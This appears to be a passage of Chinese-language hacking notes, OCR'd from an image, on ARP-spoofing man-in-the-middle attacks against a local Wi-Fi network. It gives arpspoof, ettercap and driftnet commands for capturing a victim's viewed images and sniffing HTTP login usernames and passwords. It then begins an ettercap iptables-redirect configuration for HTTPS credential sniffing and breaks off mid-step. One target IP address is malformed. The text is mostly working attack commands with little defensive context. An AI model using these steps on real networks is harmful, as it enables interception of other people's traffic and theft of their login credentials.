 4. 图片嗅探

（1）方法1(实验不成功)

echo 1 >/proc/sys/net/ipv4/ip_forward

arpspoof -i wlan0 -t 192.168.100 192.168.1.1

driftnet -i wlan0

（原因分析：可能丢包原因吧）

（2）方法2（成功）

sudo ettercap -i wlan0  -T -M arp:remote /192.168.1.253//192.168.1.100/ 

driftnet -i wlan0

（图片文件夹：/tmp/driftnet）

（

Ubuntu下可以安装工具：

sudo apt-get install  ettercap-text-only

sudo apt-get install driftnet

 ）

5. http登录账号密码嗅探

echo 1 >/proc/sys/net/ipv4/ip_forward

arpspoof -i wlan0 -t 192.168.100 192.168.1.1

ettercap -Tq -i wlan0 

（信息太庞杂,可以使用 ettercap -Tq -i wlan0 >test方便查找）

6. https登录账号密码嗅探


   	vim /etc/ettercap.conf

   	将

   	# if you use iptables:

   		#redir_command_on = "iptables -t nat -A PREROUTING -i %iface -p tcp --dport %port -j REDIRECT --to-port %rport"

   		#redir_command_off = "iptables -t nat -D PREROUTING -i %iface -p tcp --dport %port -j REDIRECT --to-port %rport"

   	修改为

   	# if you use iptables:

   		redir_command_on = "iptables -t nat -A PREROUTING -i %iface -p tcp --dport %port -j REDIRECT --to-port %rport"
